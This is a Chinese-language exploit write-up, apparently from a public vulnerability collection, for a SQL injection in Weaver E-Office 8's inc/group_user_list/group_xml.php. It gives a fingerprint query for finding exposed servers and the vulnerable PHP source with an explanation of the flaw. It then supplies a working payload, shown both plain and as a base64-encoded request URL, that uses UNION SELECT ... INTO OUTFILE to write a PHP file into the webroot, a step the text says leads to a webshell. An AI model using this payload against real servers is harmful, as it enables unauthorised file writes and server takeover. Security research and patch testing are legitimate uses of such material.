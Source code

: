# 泛微OA E-Office group_xml.php SQL注入漏洞

## 漏洞描述

泛微OA E-Office group_xml.php文件存在SQL注入漏洞，攻击者通过漏洞可以写入Webshell文件获取服务器权限

## 漏洞影响

<a-checkbox checked>泛微OA E-Office 8 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1629190834596-c2c639a7-1fb7-4934-95ad-1d571629e383.png)

存在漏洞的文件为 `inc/group_user_list/group_xml.php`

```javascript
session_start( );
include_once( "inc/conn.php" );
include_once( "inc/xtree_xml.inc.php" );
include_once( "inc/utility_all.php" );
header( "Expires: Mon, 26 Jul 1997 05:00:00 GMT" );
header( "Cache-Control: no-cache, must-revalidate" );
header( "Pragma: no-cache" );
header( "Content-Type: text/xml" );
$pararr = explodestpar( $_REQUEST['par'] );
$groupid = $pararr['groupid'];
if ( $groupid == "" )
{
				exit( );
}
$groupurl_fix = "?";
$userurl_fix = "?";
if ( 0 < strpos( $pararr['group_url'], "?" ) )
{
				$groupurl_fix = "&";
}
if ( 0 < strpos( $pararr['user_url'], "?" ) )
{
				$userurl_fix = "&";
}
$xtreeXml = new xtreeXml( );
$xtreeXml->initXml( );
if ( $pararr['group'] == 1 )
{
				$sql = "SELECT * FROM pub_group WHERE GROUP_ID=".$groupid."";
}
else
{
				$sql = "SELECT * FROM USER,USER_GROUP WHERE USER_GROUP.GROUP_ID=".$groupid."";
}
$rs = exequery( $connection, $sql );
$row = mysql_fetch_array( $rs );
$groupmember = $row['GROUP_MEMBER'];
```

$groupid没有被双引号包裹，然后造成注入。然后$groupid来自于$pararr['groupid'];其中经过了$explodestpar这个函数

```javascript
function explodeStPar( $enpar )
{
				$depar = base64_decode( $enpar );
				$arrpar = explode( "|", $depar );
				if ( !is_array( $arrpar ) )
				{
								return false;
				}
				$i = 0;
				for ( ;	$i < sizeof( $arrpar );	++$i	)
				{
								$strpar = $arrpar[$i];
								$tmparr = explode( ":", $strpar );
								$j = 0;
								for ( ;	$j < sizeof( $tmparr );	++$j	)
								{
												if ( $j == 0 )
												{
																preg_match( "/\\[([a-z0-9-_].+)\\]/i", $tmparr[$j], $exp );
																$par = $exp[1];
												}
												else
												{
																preg_match( "/\\[(.*)\\]/i", $tmparr[$j], $exp );
																$val = $exp[1];
												}
								}
								if ( trim( $par ) != "" )
								{
												$rearr[$par] = $val;
								}
				}
				return $rearr;
}
```

构造EXP写入文件

```javascript
[group]:[1]|[groupid]:[1 union select '<?php phpinfo()?>',2,3,4,5,6,7,8 into outfile '../webroot/vulntest.php']
|
| base64
|
/inc/group_user_list/group_xml.php?par=W2dyb3VwXTpbMV18W2dyb3VwaWRdOlsxIHVuaW9uIHNlbGVjdCAnPD9waHAgcGhwaW5mbygpPz4nLDIsMyw0LDUsNiw3LDggaW50byBvdXRmaWxlICcuLi93ZWJyb290L3Z1bG50ZXN0LnBocCdd
```

![img](../../../.vuepress/public/img/1646124852775-28ff0359-2eee-4921-b752-4db7ebb49328.png)